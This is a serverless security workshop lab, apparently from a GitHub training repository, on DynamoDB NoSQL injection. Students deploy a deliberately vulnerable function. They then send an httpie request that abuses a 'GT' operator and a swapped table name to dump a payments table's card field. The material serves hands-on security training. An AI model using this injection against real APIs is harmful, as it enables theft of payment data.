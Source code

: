 # DynamoDB Injection

This attack/payload has been documented [here](https://medium.com/appsecengineer/dynamodb-injection-1db99c2454ac) article.

On reading, you'll see that its a NoSQL Injection attack that's predicated on using the `gt` operator. One of the main reasons that this attack is made possible, is because of badly configured IAM privileges

* In your image, navigate over to `/root/labs/Serverless-Workshop/DynamoDB-Injection`
* Wait for instructor to explain the contents of the lab
* Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/DynamoDB-Injection/serverless.yml)
* Deploy the function with the command `sls deploy`
* Wait for the function to deploy completely 

Let's now run a genuine search against the database with this command
```bash

http POST https://xxxx.execute-api.us-east-1.amazonaws.com/api/search db=we45-sls-users search_term=Mark search_operator=EQ search_field=first_name

```

Now let's run the exploit
```bash

http POST https://xxxx.execute-api.us-east-1.amazonaws.com/api/search db=we45-sls-payments search_term="*" search_operator=GT search_field=payment-card

```